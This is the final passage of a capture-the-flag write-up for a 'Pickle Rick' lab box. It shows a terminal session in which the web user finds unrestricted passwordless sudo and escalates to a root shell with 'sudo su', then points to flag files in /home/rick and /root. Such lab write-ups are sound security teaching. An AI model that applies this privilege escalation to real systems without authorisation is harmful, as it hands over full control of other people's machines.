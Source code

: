 ```highlight
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-116-216.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-116-216.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo su
id
uid=0(root) gid=0(root) groups=0(root)
```

Now its just a case of finding the ingredient files which can be found in /home/rick and /root. 

Thats the box, thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

